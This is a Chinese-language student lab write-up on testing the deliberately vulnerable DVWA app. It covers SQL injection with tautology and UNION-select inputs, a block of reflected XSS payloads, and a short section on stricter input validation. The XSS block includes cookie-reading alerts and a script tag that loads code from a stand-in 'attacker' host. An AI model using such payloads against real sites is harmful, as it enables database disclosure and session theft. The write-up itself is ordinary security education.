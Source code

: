 # 渗透测试

## 环境搭建

直接使用了[在线版本DVWA](https://www.vulnspy.com/dvwa/)直接面去了环境搭建之苦. ~~(白下了好久的OWASP_Broken_Web_Apps_VM_1.2,又卡又没用.)~~

![Alt](./pic/奇怪的知识增加了.jpeg)

## SQL注入测试

简单来讲SQL注入就是采用一些SQL语句上检查的漏洞来进行攻击.采用特殊的输入来对数据库的数据进行查询和修改.比如正常来说,我们只能按照当前用户的ID查找到对应的内容.例如输入1则只能获取对应1的用户的信息.



![](pic/1.png)

但是通过对SQL语句进行特殊的测试和修改我们可以得到额外的内容.例如输入1'or'1'='1,我们可以查询到所有用户的信息.

![](pic/2.png)

另外的通过适当的修改语句,我们还可以查到非当前功能应该返回的值.例如输入1' and 1=2 union select version(),database() -- 我们可以查询到当前数据库的版本等.

![](pic/3.png)



## 跨站脚本攻击测试

跨站脚本攻击共分为三类反射型（Reflected）、存储型（Stored）、DOM型.原理是采用html文本中的具体漏洞来添加弹窗甚至是查询新的信息.这里我们只对反射型的跨站脚本进行实验.

准备好对应的攻击文本.并输入对应的文本框就可以得到如下的内容.

```xml
<script>alert(123)</script>
<script>javascript:alert(document.cookie);</script>
<input onfocus="javascript:alert(document.cookie)" />
<script src="http://attacker/xss.js">confirm(123)</script>
<img src="http://www.baidu.com" onmouseover=prompt(123) />
```

![](pic/5.png)





## 如何防范

对应的DVMA有安全性选择,我查看了一下对应的DVMA下不同安全等级的代码规范, 更高级的代码对应的对输入的条件约束更详细,并且对应的逻辑更为的紧密.这个是我们今后设计开发要考虑到的部分.也即设计更为严谨的代码输入规范.



## 参考资料

[在线环境](https://www.vsplate.com/labs.php)

[SQL注入之DVWA平台测试mysql注入](https://www.cnblogs.com/saryli/p/5883915.html)

[DVWA之跨站脚本攻击漏洞测试01-反射型XSS](https://www.jianshu.com/p/c6ed01e6f905)

